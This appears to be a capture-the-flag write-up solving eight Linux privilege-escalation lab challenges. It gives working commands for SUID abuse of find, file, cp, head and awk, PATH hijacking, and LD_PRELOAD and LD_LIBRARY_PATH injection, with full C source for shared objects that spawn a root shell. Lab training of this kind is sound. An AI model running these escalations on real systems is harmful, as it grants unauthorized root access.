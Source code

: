 # Privelege Escalation Laboratory 2

# This writeup contains the solving steps of all the prvelege escalation challenges from codwer.academy.

## Privesc1

![image](https://github.com/cbr1N/codwer/assets/95069685/e5edacbe-cba4-4269-8594-1c49e55d6a07)

Firstly we access a container running on a Linux machine using the given IP address and port. We also have the username and password that are configured for SSH access.

![image](https://github.com/cbr1N/codwer/assets/95069685/f0b16503-11a1-4912-a7cc-4d175fd94473)

As we can see /usr/bin/find has the SUID set to it. We can exploit this and gain root access.

![image](https://github.com/cbr1N/codwer/assets/95069685/09d4696a-5239-405e-8a24-e21387692d2e)

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

```
ls -la /usr/bin/find
./find . -exec /bin/sh -p \; -quit
whoami
cat /flag.txt
```
**flag: CWA{F1r5t_5U1D_D0N3}**

## Privesc2

![image](https://github.com/cbr1N/codwer/assets/95069685/ea0ec194-8a1d-448e-ad57-b710903254a0)

![image](https://github.com/cbr1N/codwer/assets/95069685/87373ef0-5f6c-4b35-bfe4-0b31f26feb18)

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

Each input line is treated as a filename for the file command and the output is corrupted by a suffix : followed by the result or the error of the operation, so this may not be suitable for binary files.

```
ls -la /usr/bin/file
LFILE=/flag.txt
file -f $LFILE
```

**flag: CWA{G01NG_5TR0NG_K33P_1T_UP}**


## Privesc3

![image](https://github.com/cbr1N/codwer/assets/95069685/bc348785-5e18-4dfb-a312-6c5e29ab372c)

![image](https://github.com/cbr1N/codwer/assets/95069685/6bf9b740-1aab-4469-824f-4e302762faf1)

This can copy SUID permissions from any SUID binary (cp itself) to another. cp has user read permission so by copying it to the flag.txt file copy that we will create in /tmp, we gain read permission to that file. 

```
ls -la /usr/bin/cp
LFILE=/flag.txt
cp "$LFILE" /tmp/flag
/usr/bin/cp --attributes-only --preserve=all /bin/cp /tmp/flag
cat /tmp/flag
```

**flag: CWA{ST1LL_G01NG_5TR0NG_K33P_1T_UP}**

## Privesc4

![image](https://github.com/cbr1N/codwer/assets/95069685/3a077765-b9ce-44f2-b2f0-0bc25422892e)

Here we have the SUID set to head. That means that we can run head on any restricted file and it will show us its content.

```
ls -la /usr/bin/head
LFILE=/flag.txt
head "$LFILE"
```

**flag: CWA{0N3_M0R3_SU1D_L3FT}**

## Privesc5

![image](https://github.com/cbr1N/codwer/assets/95069685/02ca44d2-e9ca-4737-937d-dd9377c8c8ee)

As in other instances the /usr/bin/awk command has the SUID bit set so we can exploit it. We use a read file exploit to gain the contents of /flag.txt.

```
ls -l /usr/bin/awk
awk '//' /flag.txt
```

**flag: CWA{FLY_H1GH_L1K3_4_H4WK}**

## Privesc6

![image](https://github.com/cbr1N/codwer/assets/95069685/99601f0a-ed78-474a-a057-a1e968d5b1ce)

We can see that the run_me has SUID set to it.

![image](https://github.com/cbr1N/codwer/assets/95069685/354ea433-bf86-4c95-a717-d4108df8172b)

By creating a malicious ps script, we are taking advantage of the fact that run_me likely calls ps without specifying its full path, relying on the PATH environment variable.
Prepending /tmp to PATH ensures that our malicious ps script is executed instead of the system ps command.
This method works if run_me is running with elevated privileges, allowing our script to inherit these privileges and spawn a root shell.

```
ls -l ./run_me
echo '#!/bin/bash' > /tmp/ps
echo '/bin/sh' >> /tmp/ps
chmod +x /tmp/ps
export PATH=/tmp:$PATH
./run_me
whoami
cat /flag.txt
```

**flag: CWA{K33P_Y0UR_P4TH_FULL}**

## Privesc7

![image](https://github.com/cbr1N/codwer/assets/95069685/eb07f96d-154e-441b-8e71-d42702feb046)

This line env_keep+=LD_PRELOAD means that when a user executes a command with sudo, the LD_PRELOAD environment variable will be preserved.

![image](https://github.com/cbr1N/codwer/assets/95069685/de4af3cc-f87e-406d-a705-8b6db3da8a44)

When a program is running, LD_PRELOAD loads a shared object before any others. By writing a simple script with init() function, it will help us execute code as soon as the object is loaded. Then we run one of the programs you are allowed to run via sudo, in our case apache2, while setting the LD_PRELOAD environment variable to the full path of the new shared object.

```
sudo -l
touch preload.c
nano preload.c
cat preload.c
gcc -fPIC -shared -nostartfiles -o /tmp/preload.os /home/codwer/preload.c
sudo LD_PRELOAD=/tmp/preload.os apache2
whoami
cat /flag.txt
```
preload.c script:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

**flag: CWA{PR3L04D_Y0UR_L1BR4R135}**

## Privesc8

![image](https://github.com/cbr1N/codwer/assets/95069685/14ed8a1d-e0b9-4914-9e99-f5904a0beb3e)

![image](https://github.com/cbr1N/codwer/assets/95069685/4bb582be-68e1-43b8-9961-d961ce38ec96)

The LD_LIBRARY_PATH contains a list of directories which search for shared libraries first.
Use one of the shared objects in the list and we will hijack it by creating a file with same name. We will be targeting the libcrypt.so.1 file.

![image](https://github.com/cbr1N/codwer/assets/95069685/160d397a-db5c-44d3-92ae-9e543b59b717)

The next steps are identical to the previous example.

![image](https://github.com/cbr1N/codwer/assets/95069685/3720bafc-c7f0-447f-b2ce-64c08f04e2b9)

And finally, we run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where compiled shared object is located).

```
ldd /usr/sbin/apache2
touch library.c
nano library.c
cat library.c
gcc -o /tmp/libscrypt.so.1 -shared -fPIC /home/codwer/library.c
sudo LD_LIBRARY_PATH=/tmp apache2
whoami
cat /flag.txt
```
library.c script:
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

**flag: CWA{KN0W_480U7_LD_L18R4RY_P47H}**

## Lessons learned
During these tasks I have learned how to exploit the SUID bits set to different commands and exploit them. Also I found out what env_keep does and how to exploit it. 
And on top of that I have found out about new privelege escalation techniques, gaining more knowledge about the Linux OS itself.

## Useful links
- [https://www.redhat.com/sysadmin/suid-sgid-sticky-bit]

- [https://gtfobins.github.io/#+suid]

- [https://vk9-sec.com/privilege-escalation-linux-path-hijacking/#:~:text=Linux%20path%20hijacking%2C%20also%20known,code%20or%20gain%20elevated%20privileges.]
